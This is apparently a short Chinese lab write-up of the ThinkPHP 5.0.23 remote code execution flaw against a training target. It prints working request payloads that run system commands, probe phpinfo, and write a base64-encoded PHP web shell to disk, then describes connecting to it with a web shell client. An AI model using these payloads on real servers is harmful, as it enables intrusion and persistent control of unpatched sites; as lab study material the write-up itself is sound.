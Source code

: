 

# Thinkphp5.0.23 远程代码执行

# 漏洞概述

低于5.0.23版本都存在远程代码执行

## write up

首先打开靶场



![1](.\1.png)

利用POC来拿flag

`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls /tmp`

![2](.\2.png)

使用phpinfo函数验证来获取敏感信息

`_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1`

![3](.\3.png)

如果要上传 shell ,传 shell 的时候，要 把 eval 替换成 assert  并进行base64转义。对

`aaa<?php @assert($_POST['xss']);?>bbb` 进行base64转义，

转义完成后的POC

`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo -n YWFhPD9waHAgQGFzc2VydCgkX1BPU1RbJ3hzcyddKTs/PmJiYg== | base64 -d > shell1.php
`

![4](.\4.png)



成功访问,说明上传成功。![5](.\5.png)用菜刀去连接。

![6](.\6.png)

![7](.\7.png)

接上来上大招，一键日站。

![8](./8.png)